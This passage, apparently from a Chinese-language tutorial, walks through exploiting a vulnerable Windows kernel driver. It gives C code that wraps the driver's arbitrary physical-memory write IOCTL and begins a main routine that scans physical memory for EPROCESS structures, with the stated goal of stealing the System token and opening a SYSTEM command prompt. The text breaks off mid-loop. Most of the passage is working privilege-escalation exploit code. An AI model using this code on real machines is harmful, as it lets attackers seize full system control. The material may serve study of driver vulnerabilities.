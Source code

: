 #### 任意寫漏洞
將任意寫的漏洞包成一個函數，其中可以輸入參數
- pa：要寫入的物理記憶體位址
- size：寫入的大小
- value：寫入的內容的 Buffer

```c
struct DATA_WRITE_PA
{
    PVOID PhysicalAddress;
    DWORD unit;
    DWORD size;
    DWORD64 value;
};

VOID WritePA_0x9C40A108(PVOID pa, DWORD size, DWORD64 value)
{
    DWORD dwWrite;
    DATA_WRITE_PA data;
    data.PhysicalAddress = pa;
    data.unit = 1;
    data.size = size;
    data.value = value;
    DeviceIoControl(hDevice, 0x9C40A108, &data, sizeof(data), NULL, 0, &dwWrite, NULL);
}
```

#### 攻擊實作
整個攻擊實作的邏輯如下。
1. 迴圈掃描整個物理記憶體
2. 利用任意讀的漏洞一次讀 0x10000 的物理記憶體
3. 確認讀取的物理記憶體中是否包含 System 或當前 Process 的 EPROCESS
4. 利用任意寫的漏洞竄改當前 Process 的 EPROCESS Token 的物理記憶體
5. 彈出有 system 權限的 cmd

```c
int main(int argc, char* argv[])
{
    // 取得 Device 的 Handle
    hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    // 1. 迴圈掃描整個物理記憶體
    PVOID read_address = (PVOID)0;
    DWORD64 SystemToken = 0, SystemEprocess = 0, TargetEprocess = 0;
    const DWORD UNIQUE_PROCESS_ID_OFFSET = 0x2e0, TOKEN_OFFSET = 0x358, IMAGE_FILE_NAME_OFFSET = 0x450;
    while (1)
    {
        // 2. 利用任意讀的漏洞一次讀 0x10000 的物理記憶體
        CHAR output[0x10000] = {0};
        ReadPA_0x9C406104(read_address, 0x10000, output);

        // 3. 確認讀取的物理記憶體中是否包含 System 或當前 Process 的 EPROCESS
        for (int offset = 0; offset < 0x10000 - IMAGE_FILE_NAME_OFFSET; offset++)
        {
            // 透過 UniqeuProcessId 和 ImageFileName 檢查是不是 System
            if (!SystemEprocess && *(DWORD64*)(output + offset + UNIQUE_PROCESS_ID_OFFSET) == 4 &&
                !memcmp((CHAR*)(output + offset + IMAGE_FILE_NAME_OFFSET), "System", 6))
            {
```